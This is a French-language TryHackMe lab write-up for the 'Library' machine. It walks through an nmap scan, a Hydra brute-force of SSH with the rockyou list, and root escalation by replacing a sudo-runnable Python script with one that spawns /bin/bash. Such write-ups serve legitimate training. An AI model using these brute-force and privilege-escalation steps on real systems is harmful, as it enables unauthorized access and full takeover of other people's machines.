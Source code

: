 ```yaml
---
title: Library (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Force brute]
style: border
color: thm
comments: false
description: L'art de réécrire un script à son avantage
modified: 06/09/2024
---
```


## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Exploration du site](#2-exploration-du-site)
* [3. Trouver un mot de passe](#3-trouver-un-mot-de-passe)
* [4. Elevation de privilèges](#4-elevation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.121.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 14:41 CEST
Nmap scan report for 10.10.121.39
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en évidence la présence d'un serveur {% include dictionary.html word="SSH" %} sur le port 22, et d'un serveur Apache sur le port 80. Ce service dispose d'un fichier `robots.txt` qui permet d'empêcher aux moteurs de recherche de référencer les pages indiquées dans ce fichier.

## 2. Exploration du site

Nous commençons par vérifier le contenu du fichier `robots.txt` mis en avant par le scan précédent :

```bash
curl 'http://10.10.121.39/robots.txt'
User-agent: rockyou
Disallow: /
```

Le `User-agent` indique le nom d'une liste de mots de passe nommée *rockyou*. Cette liste est souvent utilisée pour trouver des mots de passe "faible" dans des outils de force brute comme *<abbr title="Logiciel de craquage de mot de passe">John The Ripper</abbr>*, *{% include dictionary.html word="Hashcat" %}* ou encore *{% include dictionary.html word="Hydra" %}*.

{% include elements/figure.html image="/images/THM/20240903/VirtualBox_Kali Hack_03_09_2024_14_53_15.png" caption="Première connexion" %}

Le site héberge un blog, dont l'auteur s'appelle "meliodas". Nous utiliserons cet identifiant pour tenter de trouver un mot de passe valide pour une connexion SSH grâce à l'outil *{% include dictionary.html word="Hydra" %}*.

## 3. Trouver un mot de passe

L'outil *{% include dictionary.html word="Hydra" %}* nous permet bien de trouver le mot de passe de l'utilisateur "meliodas"

```bash
hydra -l 'meliodas' -P /usr/share/wordlists/rockyou.txt 10.10.121.39 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 15:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.121.39:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.10.121.39   login: meliodas   password: i[...expurgé...]1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 15:05:30
```

Grâce à ces identifiants, nous pouvons accéder au serveur et récupérer le 1er flag.

```bash
ssh meliodas@10.10.121.39

cat user.txt
6d488c[...expurgé...]35f4ec
```

## 4. Elevation de privilèges

L'utilisateur meliodas est habilité à utiliser la commande {% include dictionary.html word="sudo" %} sans mot de passe pour lancer un script Python :

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Le script en question appartient à root, et meliodas n'a que la possibilité de le lire. Nous ne pourrons pas modifier ce script pour obtenir un *{% include dictionary.html word="reverse-shell" %}*.

```bash
ls -hAl bak.py
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

Le script semble permettre de faire une sauvegarde du contenu du site vers une archive `website.zip`

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Nous pouvons néanmoins supprimer puis recréer le fichier `bak.py` afin d'obtenir un shell root. Pour ce faire, nous utiliserons la commande proposée par [GTFOBins](https://gtfobins.github.io/gtfobins/python/#shell) en l'adaptant à nos besoins :

```bash
rm -f bak.py

echo "import os
> os.system('/bin/bash')" > bak.py

sudo /usr/bin/python3 ~/bak.py

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons accès au compte root, nous pouvons lire le dernier flag.

```bash
cat /root/root.txt
e8c8c6[...expurgé...]88c617
```
